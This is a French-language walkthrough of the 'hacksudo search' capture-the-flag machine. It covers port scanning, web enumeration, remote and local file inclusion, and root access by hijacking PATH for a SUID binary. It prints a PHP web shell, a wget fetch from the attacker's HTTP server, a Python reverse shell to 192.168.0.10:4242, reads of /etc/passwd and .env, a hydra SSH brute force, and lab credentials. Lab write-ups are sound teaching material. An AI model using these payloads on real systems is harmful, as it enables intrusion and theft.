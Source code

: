 # Nmap
 
   `nmap hacksudo_search -A`
``` 
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
   | ssh-hostkey:
   |   2048 7b:44:7c:da:fb:e5:e6:1d:76:33:eb:fa:c0:dd:77:44 (RSA)
   |   256 13:2d:45:07:32:83:13:eb:4e:a1:20:f4:06:ba:26:8a (ECDSA)
   |_  256 21:a1:86:47:07:1b:df:b2:70:7e:d9:30:e3:29:c2:e7 (ED25519)
   80/tcp open  http    Apache httpd 2.4.38 ((Debian))
   |_http-server-header: Apache/2.4.38 (Debian)
   |_http-title: HacksudoSearch
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
 
# Enumération Web
 
   `gobuster dir -u http://hacksudo_search -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
 
Grace à un gobuster on trouve la page search1.php (avec l'option pour les extensions php)
 
# Première méthode: RFI
 
 
Dans notre répertoire courant, on crée le fichier rfi.php tel que:
 ```
   <?php
   echo "<script>alert(Archimed own you);</script>";
   echo "Run command: ".htmlspecialchars($_GET['cmd']);
 
   system($_GET['cmd']);
   ?>
 ```
 
On créer un serveur HTTP à la volé à l'aide de python3:
 
  ` python -m http.server 8000`
 
Puis on exploite la RFI avec le paramètre &cmd=id (pour vérifier que cela fonctionne) comme suit:
 
   `http://192.168.0.37/search1.php?me=http://192.168.0.10:8000/rfi.php&cmd=id`
 
Il est possible d'uploader un fichier sur le site internet en utilisant 'wget' et en plaçant un fichier malicieux sur notre serveur http provisoir
 
   `http://192.168.0.37/search1.php?me=http://192.168.0.10:8000/rfi.php&cmd=wget+http://192.168.0.10:8000/rfi.php`
 
Nous pouvons uploader le shell yolo.php
 
Lorsque nous accédons à la page http://hacksudo_search/yolo.php nous pouvons maintenant exécuter des commandes.
 
Avant toute chose, nous plaçons un netcat en écoute pour pouvoir y "envoyer" un shell
 
   `netcat -lvnp 4242`
 
Après avoir essayé quelques payload avec netcat et bash, c'est une reverse payload python qui à réussi à fonctionner:
 
   `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.10",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
 
# Seconde méthode: LFI
 
## Recherche de la LFI
 
En cliquant sur "Contact" on remarque qu'il est possible de passer des paramètres dans l'URL suivant:
 
   `http://192.168.0.37/search1.php?FUZZ=contact.php`
 
Il s'agit d'un indice non négligeable.
Essayons donc de "fuzzer" ce terme pour voir si une LFI est présente:
 
   `wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.0.37/search1.php?FUZZ=../../../../../../../../etc/passwd`
 
(On note le nombre de ligne qu'il y a sur les réponses "générique" et on ajoute l'option --hl (hide line) pour cacher ces réponses là et n'avoir que les réponses particulière)
 
   `wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.0.37/search1.php?FUZZ=../../../../../../../../etc/passwd --hl 137`
 
 
La LFI:
 
   `http://192.168.0.37/search1.php?me=../../../../../../../etc/passwd`
 
Cela nous permet d'avoir des users, maintenant pour les mot de passes essayons le fichier .env du répertoire courant:
 
   `http://192.168.0.37/search1.php?me=.env`
 
## BruteForce avec Hydra
 
bruteforce sur le service SSH à l'aide de hydra:
 
   `hydra -L user -P pass 192.168.0.37 ssh`
 
On trouve les crédentials suivants:
 
`hacksudo:MyD4dSuperH3r0!`
 
 
# Privilège Escalation
 
Une fois connecté, en utilisant linpeas.sh (télécharger à l'aide d'un get) on se rend comte qu'un fichier ./searchinstall possède un stickybit.
On peut aussi trouver à l'aide de ls -al -R (dans le répertoire de hacksudo).
ou la commande find permettant de trouver les sticky bits.
 
Le code C non compilé se trouve aussi dans le répertoire, on observe le code, il permet d'utiliser la commande "install" en temps que root (mais sans argument possible, donc impossible d'utiliser la méthode de GTFOBins).
 
On crée alors un fichier install comme suit:
 `
   #!/bin/bash
   bash
 `
On ajoute les droit d'exec, puis on ajoute le PATH du répertoire
 
`export PATH = /home/hacksudo/search/tools:$PATH`
 
En faisant ./searchinstall cela va chercher la commande install que nous avons créer et l'exécuter en temps que root. Dans ce cas précis, cela va nous fournir un shell bash avec les droits root.
 
 
 


